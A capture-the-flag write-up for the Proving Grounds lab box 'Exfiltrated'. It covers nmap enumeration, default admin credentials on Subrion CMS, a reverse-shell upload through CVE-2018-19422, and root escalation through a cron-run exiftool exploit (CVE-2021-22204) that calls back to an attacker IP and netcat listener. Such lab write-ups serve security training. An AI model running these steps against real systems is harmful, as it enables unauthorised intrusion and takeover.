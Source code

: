 ```yaml
---
title: "Proving Grounds - Exfiltrated"
categories: [CTF, Proving Grounds - Play]
tags: [EASY, Linux, Web, Subrion, Exiftool]
mermaid: true
image: ../assets/img/provingrounds/oscp.png
---
```


Exfiltrated was a well-structured box that provided an excellent opportunity to exploit a Subrion CMS vulnerability and perform privilege escalation via an Exiftool exploit. 

Initial enumeration led to the discovery of Subrion CMS, and default credentials allowed for access to the admin panel. 

By exploiting a file upload vulnerability, a reverse shell was obtained. Further enumeration revealed a cron job running Exiftool on uploaded images, which was leveraged to escalate privileges and capture the flag.

# Diagram

```mermaid
graph TD
    A[Host Enumeration] -->|Nmap Scan| B[Identify Subrion CMS]
    B -->|Default Credentials| C[Admin Panel Access]
    C -->|File Upload Vulnerability| D[Upload Reverse Shell]
    D -->|Execute Reverse Shell| E[Gain Initial Access]
    E -->|Cron Job Enumeration| F[Identify Exiftool Usage]
    F -->|Exploit Exiftool| G[Privilege Escalation]
    G -->|Capture Flag| H[Success]
```

## Information Gathering

### Portscan

---

- `nmap -sS -Pn -n -T4 --open 192.168.177.163`
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled.png)
    
- `nmap -sS -Pn -n -T4 --open 192.168.177.163 -p-`
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%201.png)
    
- `nmap -sVC -Pn -n -p 22,80 192.168.177.163`
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%202.png)
    

## Enumeration

### HTTP 80
---

- [http://192.168.177.163](http://192.168.177.163) → redirects to exfiltrated.offsec
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%203.png)
    
- `cat /etc/hosts`
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%204.png)
    

- [http://exfiltrated.offsec/](http://exfiltrated.offsec/) → Subrion CMS
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%205.png)
    
- [http://exfiltrated.offsec/robots.txt](http://exfiltrated.offsec/robots.txt)
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%206.png)
    
- [http://exfiltrated.offsec/panel/](http://exfiltrated.offsec/panel/) → Panel Login. CMS v4.2.1
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%207.png)
    

- `searchsploit Subrion CMS 4.2.1`
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%208.png)
    

- Subrion default credentials: admin/admin
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%209.png)
    

- [http://exfiltrated.offsec/panel/members/add/](http://exfiltrated.offsec/panel/members/add/) → made login
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%2010.png)
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%2011.png)
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%2012.png)
    

Once authenticated i tried this exploit

- https://github.com/hev0x/CVE-2018-19422-SubrionCMS-RCE

After read the exploit i decided to put an reverse shell inside the [http://exfiltrated.offsec/panel/uploads/](http://exfiltrated.offsec/panel/uploads/) 

- `cat revShell.phar`
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%2013.png)
    
- [http://exfiltrated.offsec/panel/uploads/](http://exfiltrated.offsec/panel/uploads/)
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%2014.png)
    

- [http://exfiltrated.offsec/uploads/revShell.phar](http://exfiltrated.offsec/uploads/revShell.phar)
`rlwrap nc -lvnp 80`
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%2015.png)
    

## Priv Escalation

---

- `cat /etc/cron*`
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%2016.png)
    
- `cat /opt/image-exif.sh`
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%2017.png)
    
- `ls -lh /opt/image-exif.sh`
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%2018.png)
    
- `ls -ld /var/www/html/subrion/uploads /opt/metadata`
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%2019.png)
    

Since the cron script writes EXIF metadata to a log file in `/opt/metadata` using the `exiftool` command, one possible attack vector is to exploit a symlink attack if the script does not properly handle symbolic links.

- `exiftool -ver`
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%2020.png)
    

- `searchsploit exiftool`
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%2021.png)
    

Searching more i found this repository

[https://github.com/mr-tuhin/CVE-2021-22204-exiftool.git](https://github.com/mr-tuhin/CVE-2021-22204-exiftool.git)

But wasn’t working because of the bbz

- `sudo apt-get install imagemagick djvulibre-bin exiftool`

- `python3 exploit.py 192.168.45.194 4430`
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%2022.png)
    
- [http://exfiltrated.offsec/panel/uploads/#elf_l1_Lw](http://exfiltrated.offsec/panel/uploads/#elf_l1_Lw)
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%2023.png)
    
- [http://exfiltrated.offsec/uploads/image.jpg](http://exfiltrated.offsec/uploads/image.jpg)
`rlwrap nc -lvnp 4430`
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%2024.png)
    

- `Flag.txt`
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%2025.png)